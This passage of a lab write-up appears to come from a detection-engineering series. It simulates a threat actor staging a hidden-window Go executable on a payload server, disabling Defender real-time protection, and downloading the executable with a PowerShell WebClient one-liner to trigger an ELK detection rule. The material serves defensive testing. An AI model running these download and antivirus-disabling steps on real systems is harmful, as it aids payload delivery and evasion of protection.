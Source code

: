 ```bash
GOOS=windows GOARCH=amd64 go build -ldflags="-H=windowsgui" -o WinPingDemo.exe
```

Move compiled program to the HTTP server directory

```bash
sudo mv ./WinPingDemo.exe /root/http-server
```

Now on the lab Windows VM the HTTP will be available. But I want to show another scenario. 

<div align="center">
    <img alt="HTTP server demo program" src="/resources/attack-detect-scenarios/execution/suspicious-powershell-download-and-execute-pattern/images/payload-server-http-winpingdemo.png" width="100%">
</div>

Let's go back to the end of the [Remote connection followed by suspicious process execution](/resources/attack-detect-scenarios/initial-access/remote-admin-tools-windows/remote-connection-followed-by-suspicious-process-execution/Remote-connection-followed-by-suspicious-process-execution.md) scenario and assume that the threat actor will only download this program from the payload server.

> [!IMPORTANT]  
> Disable lab Windows VM Real Time Protection on Defender

> [!IMPORTANT]  
> Enable the `Suspicious PowerShell Download and Execute Pattern` rule on the lab ELK instance or upload a new one.

```powershell
powershell -NoProfile -command "(New-Object System.Net.WebClient).DownloadFile('http://100.65.0.6/WinPingDemo.exe', \"$env:TEMP\\WinPingDemo.exe\")"
```

<div align="center">
    <img alt="Command execution to trigger rule" src="/resources/attack-detect-scenarios/execution/suspicious-powershell-download-and-execute-pattern/images/access-to-host.png" width="100%">
</div>

<div align="center">
    <img alt="Command execution to trigger rule" src="/resources/attack-detect-scenarios/execution/suspicious-powershell-download-and-execute-pattern/images/download-demo-exe.png" width="100%">
</div>
